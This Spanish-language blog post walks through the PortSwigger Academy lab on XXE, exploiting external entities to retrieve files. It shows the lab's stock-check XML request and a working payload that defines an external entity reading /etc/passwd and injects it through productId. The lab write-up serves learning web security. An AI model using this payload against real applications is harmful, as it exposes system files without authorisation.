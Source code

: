 +++
author = "Alux"
title = "Portswigger Academy Learning Path: XML external entity (XXE) Lab 1"
date = "2022-01-23"
description = "Lab: Exploiting XXE using external entities to retrieve files"
tags = [
    "xxe",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Exploiting XXE using external entities to retrieve files

La vulnerabilidad o el ataque de XXE es poder realizar una inyeccion XML en la aplicacion que analiza la entrada que le pasa el usuario o el sistema. Lo que hace que un analizados XML no este configuracion o este configurado debilmente para que procese peticiones que un usuario mal intencionado pueda inyectar. Pudiendo llegar a ejecucion de comandos, lectura de archivos y otros.

![Proceso de XXE](xxe-injection.svg)


## Reconocimiento

En este <cite>laboratorio[^1]</cite>la finalidad es poder realizar una inyeccion XXE para pode recuperar el archivo `/etc/passwd` valiendose de la configuracion debil del analizador.

Primero notamos la opcion de `Check stock` de la web en la que recuperamos la existencia de los productos.

![Check stock](checkstock.png)

Al ir a la opcion de `Check stock` en burp vemos la peticion que se hace al servidor usando lenguaje XML para realizar la peticion.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```

![Peticion para recuperar el stock del producto](request1.png)

## Explotacion

Sabiendo la peticion que se hace lo primero que haremos sera recuperar el archivo de `/etc/passwd` esto a traves de declarar la DTD para luego referenciar la entidad a nuestro archivo que queremos leer. Que es con la siguiente sintaxis. Luego se referencia en cualquiera del valor que se imprimira o recibira de la web que sera `productId` referenciando con `&xxe;`. Si no realizamos este proceso no podremos recuperar los datos.

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
<productId>&xxe;</productId>
<storeId>1</storeId>
</stockCheck>
```

![Recuperando el archivo /etc/passwd](request2.png)

Y con esto hemos resuelto el lab.

![Laboratorio resuelto](resuelto.png)


[^1]: [Laboratorio](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files)